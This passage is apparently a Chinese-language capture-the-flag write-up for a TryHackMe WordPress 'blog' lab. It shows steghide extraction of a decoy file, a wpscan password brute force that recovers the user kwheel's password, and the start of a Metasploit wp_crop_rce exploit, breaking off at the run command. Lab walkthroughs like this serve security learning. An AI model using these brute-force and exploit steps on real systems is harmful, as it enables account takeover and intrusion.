 ```

还有一个mp4文件是Taylor Swift的I Knew You Were Trouble的一个恶搞片段


We Didn't Start the Fire这首歌历数了1949年-1989年世界上发生的各种大事，总体表达的是这个世界在我们来之前就糟糕透了，以后也没有变好的意思

I Knew You Were Trouble是一首流行歌曲，表达了一种我明知道你是傻逼，但是我还是爱上你了，现在我受伤了，我好疼的思想感情。

所以以上这些跟登录密码有什么关系？


# 我们使用steghide（Steghide是一个可以将文件隐藏到图片或音频中的工具,析出文件用extract参数）查看文件
```
┌──(root💀kali)-[~/tryhackme/blog]
└─#  steghide extract -sf Alice-White-Rabbit.jpg 
Enter passphrase: 
wrote extracted data to "rabbit_hole.txt".
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/blog]
└─#  ls
Alice-White-Rabbit.jpg  check-this.png  rabbit_hole.txt  smb.txt  tswift.mp4
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/blog]
└─#  cat rabbit_hole.txt 
You've found yourself in a rabbit hole, friend.

```

所以整个samba服务就是一个兔子洞

# 尝试爆破kwheel的用户名
```
wpscan --url http://10.10.122.108 --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt 

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:10 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:10

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                                                                              
Trying kwheel / westham Time: 00:06:33 <                                                                                                                                                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

成功爆破到密码

因为kwheel不是站点管理员的密码，所以我们不能通过在后台修改php文件的方式反弹shell，不过按照之前的枚举5.0版本存在远程执行漏洞，我们尝试利用一下
```
msf6 exploit(multi/http/wp_crop_rce) > run
